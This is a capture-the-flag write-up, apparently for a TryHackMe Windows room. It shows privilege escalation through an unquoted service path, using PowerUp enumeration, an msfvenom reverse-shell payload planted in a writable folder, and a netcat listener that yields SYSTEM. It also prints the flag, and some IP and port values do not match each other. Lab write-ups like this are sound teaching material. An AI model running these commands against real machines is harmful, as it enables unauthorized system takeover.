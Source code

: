 ### IP
`10.10.156.117`

# RDP

`rdesktop` didn't work for me, so I logged in with `remmina`

# Enumeration

I uploaded Powersploit's `PowerUp.ps1` to find potential privilege escalation techniques. 

I uploaded the file by starting a server:
	`python3 -m http.server`
I then downloaded the file on powershell:
	`Invoke-WebRequest -Uri "http://10.6.0.144:8000/PowerUp.ps1" -OutFile "C:\Users\Sage\PowerUp.ps1"`

### PowerUp

Luckily, there isn't any active AntiVirus here, so we can run this without any modification:

```pwsh
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

We get the following output:

```
ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; 
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\Program Files\Development Files; IdentityReference=BUILTIN\Users; 
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ModifiablePath    : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
IdentityReference : THM-QUOTIENT\Sage
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Sage\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

```

We can see that there is an unquoted service path vulnerability with the "Development Service" service

# Privilege Escalation

### Background

Unquoted service paths are a problem when the path has spaces in it because of the specific way that Windows tries to resolve the path.

In this case, the path of the service is `C:\Program Files\Development Files\Devservice Files\Service.exe`

Here, when the service is executed, Windows looks in the following paths when trying to execute:

1. `C:\Program.exe`
2. `C:\Program Files\Development.exe`
3. `C:\Program Files\Development Files\Devservice.exe`
4. `C:\Program Files\Development Files\Devservice Files\Service.exe`

Thus, we just need to find a writeable path and put our payload there.

I noticed that `C:\Program Files\Development Files\` was writeable, so I put my payload there

### Payload Generation

Running `systeminfo` on the machine shows that it is 64-bit windows machine.

Thus, we can generate a payload with a tcp reverse shell with the following command:

	`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.0.114 LPORT=1337 -f exe > Devservice.exe`

We can upload this payload the same way as we did before:

	`Invoke-WebRequest -Uri "http://10.6.0.144:8000/Devservice.exe" -OutFile "C:\Program Files\Development Files\Devservice.exe"`

This, when started, will provide us a shell as the user it was started with.

### Payload Execution

When we look at the `Services` gui utility on windows or look at the "Development Service" information with `sc qc "Development Service"` in cmd.exe, we can see the following information:

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Development Files\Devservice Files\Service.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Developmenet Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```


`AUTO_START` indicates that this will start automatically on boot. 
`LocalSystem` indicates that this will start as the system user, which has admin access.

Thus, we can start a listener for the reverse shell on our local machine:
	`nc -lvnp 13367`

You can also get a (somewhat) interactive reverse shell with
	`rlwrap nc -lvnp 1337`

When we restart the machine, we get a reverse shell.
`whoami` shows `nt authority\system`

The flag is in `C:\Users\Administrator\Desktop\flag.txt`: `THM{USPE_SUCCESS}`